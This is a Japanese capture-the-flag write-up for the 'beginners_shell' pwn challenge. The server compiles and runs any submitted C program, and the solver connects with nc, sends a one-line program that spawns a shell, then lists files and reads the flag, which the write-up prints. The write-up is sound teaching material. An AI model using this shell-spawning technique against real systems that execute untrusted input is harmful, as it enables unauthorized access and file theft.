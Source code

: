 # beginners_shell:Pwn:61pts
C言語を勉強中の「彼」はみんなが教えてくれたプログラムを実行するのが好きみたい！でも彼には秘密があって...。どうにかして秘密の flag を聞き出せないかな？  
```
nc 27.133.155.191 30002
```
[main.c](main.c)　　　　[Makefile](Makefile)  

# Solution
配布された以下のmain.cが動いているようだ。  
```c:main.c
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>

int main() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(60);

  char program[0x1000];

  puts("Enter your program!");
  fgets(program, 0x1000, stdin);

  FILE *fp = fopen("/tmp/program.c", "w");
  fprintf(fp, "%s", program);
  fclose(fp);

  system("rm /tmp/program");
  system("gcc /tmp/program.c -o /tmp/program");
  system("/tmp/program");
  system("rm /tmp/program");
}
```
Cのプログラムを受け取り、実行している。  
以下のようにshを起動するプログラムを送信する。  
```bash
$ nc 27.133.155.191 30002
Enter your program!
main(){system("sh");}
rm: cannot remove '/tmp/program': No such file or directory
/tmp/program.c:1:1: warning: return type defaults to 'int' [-Wimplicit-int]
    1 | main(){system("sh");}
      | ^~~~
/tmp/program.c: In function 'main':
/tmp/program.c:1:8: warning: implicit declaration of function 'system' [-Wimplicit-function-declaration]
    1 | main(){system("sh");}
      |        ^~~~~~
ls
beginners_shell
entry.sh
flag.txt
cat flag.txt
xm4s{Yes!!To_get_SHELL_is_goal}
```
flagが読み取れた。  

## xm4s{Yes!!To_get_SHELL_is_goal}